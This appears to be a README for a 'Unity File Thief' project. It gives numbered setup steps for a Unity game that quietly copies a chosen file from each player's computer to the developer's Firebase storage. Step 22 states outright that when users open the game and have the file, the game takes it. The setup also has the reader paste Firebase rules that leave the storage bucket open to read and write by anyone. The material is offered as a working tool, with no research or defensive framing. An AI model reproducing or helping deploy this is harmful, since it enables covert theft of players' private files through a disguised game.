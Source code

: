 <font color="red"># It's Updating - You May Encounter Errors If You Use It.</font>  

## Unity File Thief
In Unity, Take a file on the computer and sent them to your firebase storage. Collect files on a spesific location.

# Set Up
1- Open your new Unity Project  
**FOR FIREBASE**  
2- Go to : https://console.firebase.google.com/ , If you dont have any account, Sing Up  
3- Add new Project on firebase ; enter a name, Select default account for firebase  
4- Select Unity under the "Get started by adding Firebase to your app" text.  
5- Choose a register type.  
6- Download config file (2nd step) and SDK zip (3th step).  
7- Go to Your Project Console and open -> Build>Storage -> Get Started -> Next -> Done  
8- Under the "Storage" text, select Rules.  
9- Delete the texts of Rules File. And Copy and Paste that Rule :  
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
**TURN TO UNITY**  
10- Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)  
11- Add config file to that folder. (Config file in the 6th step of the set up)  
12- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages and drop to project panel on the unity  
13- Import all  
14- Create new GameObject and add fileThieff.cs to your GameObject  
**SET THE SCRIPT**  
15- Go to  Firebase Storage of the YourProject Panel again. There is a copy button Left side of the Upload file  
16- Click Copy button or copy that Url which starts with gs (example ->  gs://file-thied.appspot.com )  
17- Turn to our script. Find that code line "StorageReference storageRef = storage.GetReferenceFromUrl("gs://file-thied.appspot.com/").Child(storagePath);"  
18- Delete that part  ""gs://file-thied.appspot.com/"" and paste your Url  
19- Select the path which file you want to take. Dont get a folder, only file.  
20- Under the Start Method, Find UploadFile() Function and write path (example -> "C:\\aFile\\aText.txt" )  
21- Save the Code and Start Your Game.  
**GET RESULT**  
22- When the users open your game; If they have that file, Our game take its file.  
23- Files go to Storage. You can see the documents on that tab.  

